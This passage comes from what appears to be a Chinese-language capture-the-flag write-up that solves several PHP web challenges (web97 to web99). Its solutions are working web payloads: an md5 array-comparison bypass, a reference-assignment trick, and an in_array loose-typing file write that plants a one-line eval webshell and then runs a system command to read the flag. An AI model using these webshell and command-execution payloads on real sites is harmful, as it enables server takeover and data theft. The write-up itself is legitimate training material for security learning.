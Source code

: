 ```php
    if (md5($_POST['a']) === md5($_POST['b']))
      echo $flag;
  else
    print 'Wrong.';
}
?>
```
要求传入a和b不等而md5值相等，小知识点，可以传入数组，md5后值为NULL，那么自然NULL=NULL满足条件
payload：a[]=1&b[]=2
## web98（三元运算符和传址）
```php

Notice: Undefined index: flag in /var/www/html/index.php on line 15

Notice: Undefined index: flag in /var/www/html/index.php on line 16

Notice: Undefined index: HTTP_FLAG in /var/www/html/index.php on line 17
<?php

include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```
这个题乍一看有点乱，但是仔细分析还是挺好理解的，先看第10行，如果GET传参了那么接下来就变为POST请求，再看第13行要求$_GET['HTTP_FLAG']=='flag'，如果是POST请求那么就是$_POST['HTTP_FLAG']=='flag'，所以其实11、12行无关紧要，只要随便GET一个值然后再满足$_POST['HTTP_FLAG']=='flag'就行了
payload：
GET：/?1=1 
POST：HTTP_FLAG=flag
## web99（in_array）
```php
<?php

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```
这个题考察in_array函数，它没有设置第三个参数，默认是false，即不会检查类型是否相同，所以对于1和1.php的判断是等效的，那么就可以创建一个php文件，然后写入一句话木马
payload：
GET：/?n=1.php
POST：content=<?=eval($_POST['KonDream']);?>
然后上蚁剑也行网页直接读也行，我这里选择直接读，在1.php界面
payload：KonDream=system('tac flag*');
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637938584200-b51eab6d-2608-4ce0-80bb-62dc81c1d310.png)

